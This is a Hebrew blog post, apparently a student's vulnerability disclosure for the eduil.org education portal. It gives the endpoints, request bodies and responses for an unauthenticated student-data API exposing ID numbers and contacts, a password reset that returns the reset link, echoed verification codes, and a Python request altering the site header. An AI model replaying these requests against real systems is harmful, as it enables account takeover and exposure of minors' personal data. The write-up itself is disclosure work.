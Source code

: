 ```yaml
---
layout: post
title: בעיות אבטחה בפלטפורמת "פורטל החינוך"
tags: [web, information disclosure, unauthorized access]
---
```

### גישה לפרטי התלמידים

לאחר רפרוף בקוד האתר הגעתי לקטע הקוד הבא:

![]({{ site.baseurl }}/assets/eduil.org-images/source-get-all.png)
בקטע ניתן לראות פונקציה המחזירה נתונים מממאגר התלמידים לפי פילטר מסויים, הרכבתי את הurl המצוי בקטע הקוד והגעתי אל הכתבות הבאה:

<!--more-->

```
https://eduil.org/api/students/GetAll?searchQuery= 
```

![]({{ site.baseurl }}/assets/eduil.org-images/get-all-response.png)

החלטתי להכנס אליו ולראות את התוצאות, אך לא קיבלתי תשובה לזמן מה, החלטתי לנסות להכניס ערך לפרמטר `searchQuery` הכנסתי את התו `x`.

וברגע שקיבלתי תגובה מהשרת הבנתי שנגלה לעיני בעיה חמורה, עשרות ואף מאות רשומות המכילות פרטים רגישים הופיעו על המסך, התחלתי לשחק עם ערך הפרמטר, הגעתי למסקנה שכל רשומה שיש בשם הפרטי / משפחה שלה או בשם המשתמש את ערך הפרמטר תוחזר.

הכנסתי את התו `/` מכיוון שהוא לא קיים בשמות הנמצאים ברשומות וקיבלתי את התשובה הבאה:

![]({{ site.baseurl }}/assets/eduil.org-images/get-all-response-2.png)

תשובה זאת העידה על כך שיש כ **13735** תלמידים במאגר.

על מנת לצפות בכל התלמידים הנמצאים במאגר הכנסתי לערך את התו . אשר נמצא בכל שם משתמש במאגר ואכן פעולה זו עבדה, נחשפו לעיני פרטים אישיים של מעל כ 13 אלף תלמידים.

הפרטים אשר נחשפו כוללים:

- **תעודת זהות**
- מספר הטלפון האישי
- מזהה בית הספר (אשר ניתן להצליב עם נתוני המשוב ולקבל את שם בית הספר)
- המייל הפרטי
- שם המשתמש
- שם פרטי
- שם משפחה
- עיר מגורים

**איפוס סיסמה ללא צורך באימות:**

כאשר אנו ניגשים לאפס את סיסמת המשתמש מתבצעת בקשה המכילה את מזהה המשתמש

```
POST https://eduil.org/api/localaccount/ForgotPassword HTTP/1.1
```

```js
{username: "CENSORED@office.eduil.org"}
```

התשובה המתקבלת

```js
{
    "localPasswordResetToken":
    {
        "resetToken": "CENSORED",
        "userId": "CENSORED",
        "personalEmail": "CENSORED@gmail.com",
        "maskedEmail": "CENSORED@gmail.com",
        "callbackUrl": "https://eduil.org/login/passwordreset?userid=CENSORED&token=CENSORED"
    },
    "isSuccess": true,
    "correlationId": null,
    "message": null
}
```

השדה המעניין הוא `callbackUrl` אשר מחזיר לנו את קישור האימות אשר נשלח למייל המקושר לחשבון, הקישור מאפשר לנו לאפס את סיסמת המשתמש ומאפשר גישה לחשבון

![]({{ site.baseurl }}/assets/eduil.org-images/reset-password.png)

![]({{ site.baseurl }}/assets/eduil.org-images/new-password.png)

**אימות מייל / טלפון ללא אימות**

כאשר אנו מעדכנים את מספר הטלפון / כתובת המייל המקושרים לחשבון אנו נשאלים באיזו דרך היינו רוצים לקבל את קוד האימות. אציג לכם מקרה מאחורי שירות רגיל ואילו פעולות מתרחשות מאחוריו (תיאורטית):

![]({{ site.baseurl }}/assets/eduil.org-images/reset-flow.png)

המקרה שלנו טיפה שונה, אצלנו אין אימות פרטים ובנוסף המזהה לא נשלח רק אל הטלפון / מייל אלא הוא מוחזר גם אל הדפדפן ופעולה זאת מאפשרת לנו לאמת את הפרטים ללא כל צורך בגישה לטלפון / מייל

![]({{ site.baseurl }}/assets/eduil.org-images/reset-response.png)

ניתן לראות את הבקשה לעדכון מספר הטלפון של המשתמש:

```
POST https://eduil.org/api/userdata/UpdatePersonalPhoneTokenRequest HTTP/1.1
```

```js
{
    "username": "CENSORED@office.eduil.org",
    "phoneNumber": "This isn't a real phone number",
    "educationObjectType": "Student"
}
```

אך התגובה לבקשה היא החלק הבעייתי:

```js
{
    "updatePersonalPhoneNumberToken":
    {
        "confirmationToken": "711746",
        "userId": "CENSORED",
        "phoneNumber": "This isn't a real phone number",
        "callbackUrl": null
    },
    "isSuccess": true,
    "correlationId": null,
    "message": null
}
```

ניתן לראות בגוף התגובה את המפתח confirmationToken אשר מכיל בתוכו את הערך של קוד האימות האמור להישלח למספר, כאשר נזין אותו לשדה המבקש את קוד האימות ונלחץ אישור נקבל הודעה אשר מתריעה על כך שהפרטים עודכנו.

![]({{ site.baseurl }}/assets/eduil.org-images/update-success.png)

גישה לנתוני המשוב

לאחר חיטוט מתמשך בקוד האתר הגעתי לקובץ המכיל קוד המקשר את המערכת למערכת המשוב

הרכבתי url עם נתונים על התיכון, השכבה ומספר הכיתה בה אני לומד ואכן קיבלתי את הפרטים הנכונים.

הפרטים אשר הצלחתי לראות לא מציגים משהו מיוחד אלא דוח פעילות של שיעורים בכיתה:

- שם המקצוע
- נושא השיעור
- שם המורה
- האם היו שב

```
https://eduil.org/api/mashov/ClassAssignments?instituteSymbol={school_id}&classroomNumber={class_number}&classroomCode={grade_number}
```

ניתן להציב את הפרטים של כל בית ספר המחובר למערכת המשוב ולקבל את המידע

גישה לנתוני מסודות בערים

על ידי שימוש ב endpoint הבא:

```
https://eduil.org/api/municipalities/schools?cityName={city_name}
```

נקבל רשימה של שמות בתי הספר בעיר מסויימת, רשימה זו כוללת:

- שם המוסד
- סוג המוסד
- **מזהה המוסד**
- שם המנהל

### דברים נוספים שראיתי:

המשכתי לחקור והגעתי ל endpoint הבא ב api:

```
https://eduil.org/api/communities/GetAllAvailable
```

כאשר ניגשים אליו מקבלים מידע על הקבוצות הקיימות ובמידע אשר היה שם ניתן לראות מי יוצר הקבוצה ואת פרטיו המלאים.

המידע אשר קיבלתי הכיל קבוצה לדוגמא ושם המשתמש אשר יצר את הקבוצה היה משתמש האדמין. כמובן שעל ידי ניצול השיטה שהצגתי בעמודים הקודמים ניתן להכנס למשתמש על ידי איפוס סיסמתו (פעולה שלא ביצעתי).

![]({{ site.baseurl }}/assets/eduil.org-images/admin-username.png)
*** אני משער שקיימות עוד בעיות, בעיקר בעיות הקשורות בהרשאות המשתמש אך לא המשכתי לבדוק מכיוון שפעולת בדיקה כזו תאלץ אותי לערוך את המשתמש ויכולה לגרום לפגיעה במערכת ***

### תוספת: (5/11/2018)

לאחר שהבעיות הקודמות תוקנו אותגרתי לחפש בעיה חדשה, באותו הרגע אמרתי לעצמי challenge accepted וברגע שחזרתי מהלימודים התחלתי לחפש, לאחר זמן קצר הצלחתי לשנות את הnav bar של העמוד

![]({{ site.baseurl }}/assets/eduil.org-images/title-change.png)

```py
sess.post('https://eduil.org/api/tenantdata/', json={
    'headerStyle': {
        'id': 15,
        'displayName': None,
        'logoPhoto': b64encode(open('xyz.png', 'rb').read()).decode(),
        'logoPosition': 'right',
        'logoUrl': 'https://github.com/avramit/',
        'backgroundColorFrom': '#FF0000',
        'backgroundColorTo': '#000000',
        height: 70
    }
})

# https://eduil.org/tenant-style.module.chunk.js
```

**כיום (שנה לאחר הדיווח) יש במאגר כ 62981 תלמידים**